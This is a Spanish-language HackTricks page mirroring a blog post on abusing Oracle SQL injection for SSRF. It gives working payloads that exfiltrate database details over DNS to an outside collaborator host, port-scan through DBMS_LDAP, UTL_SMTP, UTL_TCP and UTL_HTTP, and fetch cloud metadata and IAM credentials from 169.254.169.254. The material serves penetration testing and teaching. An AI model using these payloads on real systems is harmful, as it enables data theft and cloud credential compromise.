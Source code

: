# Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Sirva esta publicación como una copia de la máquina Wayback del post eliminado de [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Usar Oracle para hacer solicitudes HTTP y DNS fuera de banda está bien documentado, pero como un medio para exfiltrar datos SQL en inyecciones. Siempre podemos modificar estas técnicas/funciones para hacer otros SSRF/XSPA.

Instalar Oracle puede ser realmente doloroso, especialmente si deseas configurar una instancia rápida para probar comandos. Mi amigo y colega en [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), me señaló [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) que me permitió configurar una instancia en una máquina Ubuntu t2.large de AWS y Docker.

Ejecuté el comando docker con la bandera `--network="host"` para poder imitar Oracle como una instalación nativa con acceso completo a la red, durante el transcurso de esta publicación del blog.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Paquetes de Oracle que soportan una especificación de URL o un Nombre de Host/Número de Puerto <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Con el fin de encontrar paquetes y funciones que soporten una especificación de host y puerto, realicé una búsqueda en Google en la [Documentación en Línea de Oracle Database](https://docs.oracle.com/database/121/index.html). Específicamente,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
La búsqueda devolvió los siguientes resultados (no todos se pueden usar para realizar redes salientes)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Esta búsqueda cruda obviamente omite paquetes como `DBMS_LDAP` (que permite pasar un nombre de host y un número de puerto) ya que [la página de documentación](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) simplemente te dirige a [una ubicación diferente](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Por lo tanto, puede haber otros paquetes de Oracle que se pueden abusar para hacer solicitudes salientes que podría haber pasado por alto.

En cualquier caso, echemos un vistazo a algunos de los paquetes que hemos descubierto y enumerado arriba.

**DBMS\_LDAP.INIT**

El paquete `DBMS_LDAP` permite el acceso a datos desde servidores LDAP. La función `init()` inicializa una sesión con un servidor LDAP y toma un nombre de host y un número de puerto como argumento.

Esta función ha sido documentada anteriormente para mostrar la exfiltración de datos a través de DNS, como se muestra a continuación.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Sin embargo, dado que la función acepta un nombre de host y un número de puerto como argumentos, puedes usar esto para funcionar como un escáner de puertos también.

Aquí hay algunos ejemplos
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Un `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` muestra que el puerto está cerrado mientras que un valor de sesión indica que el puerto está abierto.

**UTL\_SMTP**

El paquete `UTL_SMTP` está diseñado para enviar correos electrónicos a través de SMTP. El ejemplo proporcionado en el [sitio de documentación de Oracle muestra cómo puedes usar este paquete para enviar un correo electrónico](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Para nosotros, sin embargo, lo interesante es la capacidad de proporcionar una especificación de host y puerto.

A continuación se muestra un ejemplo rudimentario con la función `UTL_SMTP.OPEN_CONNECTION`, con un tiempo de espera de 2 segundos.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Un `ORA-29276: transfer timeout` muestra que el puerto está abierto pero no se estableció una conexión SMTP, mientras que un `ORA-29278: SMTP transient error: 421 Service not available` muestra que el puerto está cerrado.

**UTL\_TCP**

El paquete `UTL_TCP` y sus procedimientos y funciones permiten [comunicación basada en TCP/IP con servicios](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Si se programa para un servicio específico, este paquete puede convertirse fácilmente en una forma de acceder a la red o realizar solicitudes completas del lado del servidor, ya que todos los aspectos de una conexión TCP/IP pueden ser controlados.

El ejemplo [en el sitio de documentación de Oracle muestra cómo puedes usar este paquete para hacer una conexión TCP en bruto para obtener una página web](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Podemos simplificarlo un poco más y usarlo para hacer solicitudes a la instancia de metadatos, por ejemplo, o a un servicio TCP/IP arbitrario.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interesantemente, debido a la capacidad de crear solicitudes TCP en bruto, este paquete también se puede utilizar para consultar el servicio de metadatos de la instancia de todos los proveedores de nube, ya que el tipo de método y los encabezados adicionales se pueden pasar dentro de la solicitud TCP.

**UTL\_HTTP y Solicitudes Web**

Quizás la técnica más común y ampliamente documentada en cada tutorial de Inyección SQL Oracle Fuera de Banda es el [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070). Este paquete está definido por la documentación como - `El paquete UTL_HTTP realiza llamadas del Protocolo de Transferencia de Hipertexto (HTTP) desde SQL y PL/SQL. Puedes usarlo para acceder a datos en Internet a través de HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
También podrías usar esto para realizar un escaneo de puertos rudimentario con consultas como
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Un `ORA-12541: TNS:no listener` o un `TNS:operation timed out` es una señal de que el puerto TCP está cerrado, mientras que un `ORA-29263: HTTP protocol error` o datos son una señal de que el puerto está abierto.

Otro paquete que he utilizado en el pasado con éxito variado es el [`GETCLOB()` método del tipo abstracto `HTTPURITYPE` de Oracle](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) que permite interactuar con una URL y proporciona soporte para el protocolo HTTP. El método `GETCLOB()` se utiliza para obtener la respuesta GET de una URL como un [tipo de dato CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
